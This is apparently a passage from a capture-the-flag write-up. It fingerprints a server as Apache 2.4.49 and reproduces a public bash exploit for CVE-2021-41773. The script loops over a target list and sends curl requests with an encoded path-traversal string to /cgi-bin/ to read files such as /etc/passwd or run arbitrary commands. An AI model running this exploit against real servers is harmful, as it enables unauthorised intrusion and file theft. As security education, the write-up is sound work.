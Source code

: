 We were given the target of `http://13.114.183.54:8081`.

An initial request was first sent to `http://13.114.183.54:8081`:

```
GET / HTTP/1.1
Host: 13.114.183.54:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

The response we received indicated that the server was Apache 2.4.49.

```
HTTP/1.1 200 OK
Date: Fri, 26 Nov 2021 03:01:03 GMT
Server: Apache/2.4.49 (Unix)
Last-Modified: Mon, 11 Jun 2007 18:53:14 GMT
ETag: "2d-432a5e4a73a80"
Accept-Ranges: bytes
Content-Length: 45
Connection: close
Content-Type: text/html

<html><body><h1>It works!</h1></body></html>

```

If you've been keeping up with the infosec drama in the past few months, that Apache version
would've been a huge red flag as there was a directory traversal vulnerability ([CVE-2021-41773](https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013))
introduced in that version. The vulnerability could even be leveraged to gain code execution.

Searching for an exploit turns this [script by Lucas Souza](https://www.exploit-db.com/exploits/50383)
up.

```bash
# Exploit Title: Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
# Date: 10/05/2021
# Exploit Author: Lucas Souza https://lsass.io
# Vendor Homepage:  https://apache.org/
# Version: 2.4.49
# Tested on: 2.4.49
# CVE : CVE-2021-41773
# Credits: Ash Daulton and the cPanel Security Team

#!/bin/bash

if [[ $1 == '' ]]; [[ $2 == '' ]]; then
echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
echo ./PoC.sh targets.txt /etc/passwd
exit
fi
for host in $(cat $1); do
echo $host
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2"; done

# PoC.sh targets.txt /etc/passwd
```